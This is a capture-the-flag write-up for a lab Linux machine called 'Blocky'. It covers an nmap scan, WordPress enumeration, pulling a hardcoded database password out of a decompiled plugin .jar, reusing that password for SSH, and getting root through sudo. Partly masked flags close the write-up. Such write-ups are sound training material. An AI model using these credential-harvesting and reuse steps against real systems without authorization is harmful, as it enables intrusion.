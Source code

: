 # Writeup: Blocky

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.95 scan initiated Sat Sep 27 16:26:38 2025 as: /usr/lib/nmap/nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.129.239.140
Nmap scan report for 10.129.239.140
Host is up, received user-set (0.15s latency).
Scanned at 2025-09-27 16:26:38 CEST for 472s
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp?      syn-ack ttl 63
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 27 16:34:30 2025 -- 1 IP address (1 host up) scanned in 472.32 seconds
```

On port 80 i found a webserver so i started a directory scan on my target. Since the server is running wordpress i had some issues with the directory bruteforce but iin the end i found a `/plugins` directory, wich contains two `.jar`files.

```
301      GET        9l       28w      310c http://blocky.htb/plugins => http://blocky.htb/plugins/
```

I downloaded both `.jar` files on my machine and since i never worked with java files before i have done some research how to decompile the files. I used `jd-gui` to decompile the `BlockyCore.jar` filen in wich i found some credentials inside the `BlockyCore.class`.

```java
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUe**********";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

I used `wp-scan` on my target to enumerate usernames and found the `notch` user.

```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection
```

## 💥 Exploitation:

I have used the credentials i found to log in via ssh to the target host, where i found the `user.txt` inside the home directory of `notch`.

```
ssh notch@blocky.htb

cat user.txt
```

## 🔓 Priviledge Escalation:

I checked for the usual things for privesc (cronjobs, SUID binaries, etc.) and was surprised that `notch` is inside the `sudo` group, wich has given me `root` privs trough a simple `sudo -i`.

```
id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

sudo -i
cat root.txt
```

## 💰 Loot:

```shell
# user.txt
8b74773e3fa2a0175e1fab**********

# root.txt
755353e3109d92b59ae096**********
```